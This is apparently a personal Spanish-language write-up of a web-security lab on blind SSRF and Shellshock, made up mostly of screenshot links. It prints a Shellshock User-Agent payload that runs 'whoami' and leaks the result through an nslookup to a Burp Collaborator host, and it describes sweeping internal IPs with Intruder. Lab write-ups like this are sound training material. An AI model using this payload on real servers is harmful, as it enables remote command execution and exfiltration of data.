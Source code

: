 ![[Pasted image 20230920134336.png]]

![[Pasted image 20230922144028.png]]

![[Pasted image 20230922144049.png]]

no hay interaccion con el backend. Verificando los requests:

![[Pasted image 20230922144149.png]]

![[Pasted image 20230922144217.png]]


verificamos si hay alguna interacion con un payload shellshock:

User-Agent: () { :; }; /usr/bin/nslookup $(whoami) . g6n6dl0qo73jlw2n8y8hgx6l8ce22r.oastify.com

MUCHO OJO: ACA EN EL PAYLOAD PUSE DOS ESPACIOS DE MAS Y ESO ME AFECTO LA PRIMERA EJECUCION, LA LINEA ES ASI:

![[Pasted image 20230922150054.png]]

whoamiPUNTOburpcolab : 

User-Agent: () { :; }; /usr/bin/nslookup $(whoami).g6n6dl0qo73jlw2n8y8hgx6l8ce22r.oastify.com


![[Pasted image 20230922144730.png]]

me genera una salida 200:

![[Pasted image 20230922144750.png]]

Al darle Poll al Burp Collaborator no veo ninguna interaccion, en este momento no encuentro tener una certeza de si es Blind SSRF


usamos el intruder para hacer un barrido de la IP interna:

![[Pasted image 20230922145211.png]]

![[Pasted image 20230922145307.png]]


despues de ejecutar el ataque hago un Poll Now y tenemos el resultado:

![[Pasted image 20230922150138.png]]

![[Pasted image 20230922150217.png]]

![[Pasted image 20230922150723.png]]


